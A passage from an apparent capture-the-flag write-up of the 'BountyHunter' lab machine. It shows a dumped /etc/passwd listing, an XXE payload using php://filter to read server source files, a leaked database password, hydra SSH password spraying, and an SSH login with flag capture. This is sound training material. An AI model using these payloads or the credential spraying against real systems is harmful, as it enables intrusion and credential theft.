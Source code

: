     pollinate:x:110:1::/var/cache/pollinate:/bin/false
    sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

Next we try to retrieve the `portal.php` file using our XXE vulnerability but
the file seems to be empty (which we know it is not). We use a
[PHP filter](https://pi0x73.github.io/XXE-INJECTION-WITH-LOCAL-DTD-FILE/) to
load the file with the following payload:

    :::text
    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=./portal.php"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>11</cwe>
        <cvss>11</cvss>
        <reward>11</reward>
        </bugreport>

We get the file but it does not contain anything interesting. We retrieve the
db.php file using the same method:

    :::php
    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>

We got the database to be password.
We create a list of user form the `/etc/passwd` file and add the `bounty`,
`admin` and `test` users to the list and launch `hydra` against the SSH service.

    :::text
    └─$ hydra ssh://10.129.73.239 -L users -p m19RoAU0hP41A1sTsq6K
    <SNIP>
    [22][ssh] host: 10.129.73.239   login: development   password: m19RoAU0hP41A1sTsq6K
    1 of 1 target successfully completed, 1 valid password found

We can now connect to the box using the `developement` user and grab the user
flag.

    :::text
    └─$ ssh development@10.129.73.239 #m19RoAU0hP41A1sTsq6K
    development@10.129.73.239's password:
    <SNIP>
    development@bountyhunter:~$ id
    uid=1000(development) gid=1000(development) groups=1000(development)
    development@bountyhunter:~$ cat user.txt
    f737187566092403094c901b3ffe6117
